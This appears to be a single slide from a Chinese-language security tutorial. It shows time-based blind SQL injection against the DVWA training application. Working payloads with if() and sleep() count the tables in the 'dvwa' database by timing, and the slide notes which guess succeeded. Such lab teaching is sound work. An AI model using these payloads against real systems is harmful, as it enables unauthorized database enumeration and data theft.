

# 猜解数据库有几个表
1’and if((select count(table_name)from information_schema.tables where table_schema=‘dvwa’)=1,sleep(5),1)#
失败
1’and if((select count(table_name)from information_schema.tables where table_schema=‘dvwa’)=2,sleep(5),1)#
成功，有两个表
43
2022/6/11